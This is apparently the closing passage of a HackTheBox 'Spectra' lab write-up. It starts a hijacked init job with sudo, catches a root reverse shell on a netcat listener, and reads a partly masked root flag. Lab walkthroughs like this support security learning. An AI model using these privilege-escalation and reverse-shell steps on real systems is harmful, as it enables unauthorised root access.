     
    
    katie@spectra /etc/init $ sudo initctl start test
    test start/running, process 51446
    

And get a shell as root:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:44926.
    # id
    uid=0(root) gid=0(root) groups=0(root)
    

And `root.txt`:

    
    
    # cat root.txt
    d4451971************************
    

[](/2021/06/26/htb-spectra.html)

